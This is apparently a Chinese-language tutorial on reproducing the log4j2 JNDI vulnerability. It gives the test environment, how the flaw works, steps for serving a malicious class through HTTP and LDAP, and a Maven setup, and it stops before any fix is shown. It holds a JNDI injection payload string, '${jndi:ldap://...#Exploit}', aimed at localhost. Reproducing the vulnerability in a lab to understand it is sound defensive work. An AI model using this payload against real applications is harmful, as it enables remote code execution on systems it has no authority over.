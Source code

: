 # lo4j2 漏洞复现过程及解决方案

# 背景

近日，阿里云团队发现并报告了 log4j2 的一个漏洞。

![](https://tva1.sinaimg.cn/large/008i3skNly1gxc86gqz0zj31a60je786.jpg)

由于 log4j2 是一个依赖较广的底层库，所以影响范围很大。影响程度严重，有多严重呢？ 这么说吧，**是灾难性的**。

## 复现漏洞

### 环境介绍

*   操作系统：macos Catalina

*   jdk 版本：11.0.9.1

*   log4j2 版本：2.13.3（使用 springboot 2.3.2.RELEASE 间接依赖）

### 原理介绍

引用公众号：“小林 coding” 的一张图：

![](https://tva1.sinaimg.cn/large/008i3skNly1gxc8bo2wbyj30tm0lmq4k.jpg)

使用 log4j2 正常打日志的时候没事儿，比如：

```java
logger.info("this is {}", "log4j2 demo");
```

但如果你的日志中包含 “`${`” 开头，“`}`” 结尾的内容就会被解析出来，单独处理。

而如果“`${}`” 所包裹的内容是类似这样的：`jndi:ldap://127.0.0.1:1389/#Exploit`，则有可能触发这个漏洞。

复现具体流程是这样的：

1.  先写一段想要被远程执行的 java 代码，然后编译成 class 文件

2.  将 HTTP Server 启动，保证可以通过 Http Server 访问到这个 class 文件。

3.  将 LDAP Server 启动，并将 Http Server 上的那个 class 文件注册上去。

4.  启动 java 应用程序，利用 log4j2 写日志，日志内容包括如 `${jndi:ldap://127.0.0.1:1389/#Exploit}` 这样的内容。

5.  观察结果，看 class 文件中的程序逻辑有没有被执行。

### 复现

```xml
<parent>
       <groupId>org.springframework.boot</groupId>
       <artifactId>spring-boot-starter-parent</artifactId>
       <version>2.3.2.RELEASE</version>
       <relativePath/>
</parent>

...

<dependency>
   <groupId>org.springframework.boot</groupId>
   <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
```
